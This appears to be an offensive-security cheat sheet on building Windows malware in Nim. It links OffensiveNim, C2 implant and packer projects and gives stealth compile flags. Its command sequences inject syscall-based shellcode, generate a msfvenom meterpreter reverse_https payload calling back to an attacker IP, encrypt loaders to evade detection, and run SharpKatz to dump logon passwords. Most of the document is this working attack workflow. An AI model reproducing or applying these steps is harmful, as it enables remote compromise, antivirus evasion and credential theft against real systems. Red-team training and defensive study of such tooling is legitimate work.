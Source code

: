 # Nim

* [https://github.com/byt3bl33d3r/OffensiveNim](https://github.com/byt3bl33d3r/OffensiveNim)
* [https://s3cur3th1ssh1t.github.io/Playing-with-OffensiveNim/](https://s3cur3th1ssh1t.github.io/Playing-with-OffensiveNim/)
* [https://github.com/S3cur3Th1sSh1t/Creds/tree/master/nim](https://github.com/S3cur3Th1sSh1t/Creds/tree/master/nim)
* [https://github.com/ajpc500/NimExamples](https://github.com/ajpc500/NimExamples)
* [https://huskyhacks.dev/2021/07/17/nim-exploit-dev/](https://huskyhacks.dev/2021/07/17/nim-exploit-dev/)
* [https://casvancooten.com/posts/2021/08/building-a-c2-implant-in-nim-considerations-and-lessons-learned/](https://casvancooten.com/posts/2021/08/building-a-c2-implant-in-nim-considerations-and-lessons-learned/)




## Install

Windows:

* [https://nim-lang.org/install_windows.html](https://nim-lang.org/install_windows.html)
* [https://git-scm.com/download/win](https://git-scm.com/download/win)

Linux:

```
$ sudo apt install mingw-w64 -y
$ sudo apt install nim -y
Or
$ curl https://nim-lang.org/choosenim/init.sh -sSf | sh
```

Dependencies:

```
Nim > nimble install winim nimcrypto zippy
```




## Compilation

Basic:

```
Nim > nim c program.nim
```

To not popup the console window:

```
Nim > nim c --app:gui program.nim
```

For the best size:

```
Nim > nim c -d:danger -d:strip --opt:size --passC=-flto --passL=-flto program.nim
```

For Windows on Linux:

```
$ nim c --cpu:amd64 --os:windows --gcc.exe:x86_64-w64-mingw32-gcc --gcc.linkerexe:x86_64-w64-mingw32-gcc program.nim
```

Add the needed relocation section to the resulting executable (from Windows):

```
Nim > nim c --passL:-Wl,--dynamicbase,--export-all-symbols program.nim
```




## Inject Shellcode



### NimlineWhispers

* [https://ajpc500.github.io/nim/Shellcode-Injection-using-Nim-and-Syscalls/](https://ajpc500.github.io/nim/Shellcode-Injection-using-Nim-and-Syscalls/)
* [https://github.com/ajpc500/NimlineWhispers](https://github.com/ajpc500/NimlineWhispers)
* [https://github.com/snovvcrash/NimlineWhispers](https://github.com/snovvcrash/NimlineWhispers)

How-to:

1. Generate a nim header with syscalls definitions (function names randomized): `python3 NimlineWhispers.py --randomise`.
2. Modify [*shellcode_bin.nim*](https://github.com/byt3bl33d3r/OffensiveNim/blob/master/src/shellcode_bin.nim) template to fit new function names.
3. Generate a shellcode of your choice, put it into the template and compile the binary: `nim c -d=mingw --app=console --cpu=amd64 shellcode_bin.nim`.


#### Encrypted

* [https://github.com/S3cur3Th1sSh1t/Creds/blob/master/nim/encrypt_shellcode.nim](https://github.com/S3cur3Th1sSh1t/Creds/blob/master/nim/encrypt_shellcode.nim)
* [https://github.com/S3cur3Th1sSh1t/Creds/blob/master/nim/encrypted_shellcode_loader_syscalls.nim](https://github.com/S3cur3Th1sSh1t/Creds/blob/master/nim/encrypted_shellcode_loader_syscalls.nim)

```
 # Generate a shellcode
$ msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.16.18 LPORT=443 -e x64/xor -b '\x00' -f csharp
 # Copy the shellcode into the 1st template and compile
$ nim c encrypt_shellcode.nim
 # Encrypt the shellcode and write contents into a file
$ ./encrypt_shellcode 'Passw0rd!' b64.txt
 # Copy encrypted shellcode into the 2nd template and compile
$ cat b64.txt | xclip -i -sel c
$ nim c --cpu:amd64 --os:windows --gcc.exe:x86_64-w64-mingw32-gcc --gcc.linkerexe:x86_64-w64-mingw32-gcc -d:danger -d:strip --opt:size --passC=-flto --passL=-flto encrypted_shellcode_loader_syscalls.nim
```




## Execute C# Assemblies

* [https://github.com/byt3bl33d3r/OffensiveNim/blob/master/src/execute_assembly_bin.nim](https://github.com/byt3bl33d3r/OffensiveNim/blob/master/src/execute_assembly_bin.nim)
* [https://github.com/S3cur3Th1sSh1t/Creds/blob/master/helpers/CSharpToNimByteArray.ps1](https://github.com/S3cur3Th1sSh1t/Creds/blob/master/helpers/CSharpToNimByteArray.ps1)
* [https://github.com/snovvcrash/Creds/blob/master/helpers/CSharpToNimByteArray.ps1](https://github.com/snovvcrash/Creds/blob/master/helpers/CSharpToNimByteArray.ps1)

```
$ pwsh -exec bypass
PS > . ./CSharpToNimByteArray.ps1
PS > CSharpToNimByteArray -inputfile csharp.exe
Nim > nim c --passL:-Wl,--dynamicbase,--export-all-symbols execute_assembly_bin.nim
```



### Encrypted

* [https://github.com/S3cur3Th1sSh1t/Creds/blob/master/nim/encrypt_assembly.nim](https://github.com/S3cur3Th1sSh1t/Creds/blob/master/nim/encrypt_assembly.nim)
* [https://github.com/S3cur3Th1sSh1t/Creds/blob/master/nim/encrypted_assembly_loader.nim](https://github.com/S3cur3Th1sSh1t/Creds/blob/master/nim/encrypted_assembly_loader.nim)

```
$ nim c encrypt_assembly.nim
$ nim c --cpu:amd64 --os:windows --gcc.exe:x86_64-w64-mingw32-gcc --gcc.linkerexe:x86_64-w64-mingw32-gcc -d:danger -d:strip --opt:size --passC=-flto --passL=-flto encrypted_assembly_loader.nim
$ ./encrypt_assembly 'Passw0rd!' SharpKatz.exe b64.txt
Cmd > .\encrypted_assembly_loader.exe Passw0rd! b64.txt --Command logonpasswords
```




## Tools & Packers

- [https://github.com/S3cur3Th1sSh1t/Nim-RunPE](https://github.com/S3cur3Th1sSh1t/Nim-RunPE)
- [https://github.com/S3cur3Th1sSh1t/NimGetSyscallStub](https://github.com/S3cur3Th1sSh1t/NimGetSyscallStub)
- [https://github.com/chvancooten/NimPackt-v1](https://github.com/chvancooten/NimPackt-v1)
- [https://github.com/icyguider/Nimcrypt2](https://github.com/icyguider/Nimcrypt2)
- [https://github.com/adamsvoboda/nim-loader](https://github.com/adamsvoboda/nim-loader)
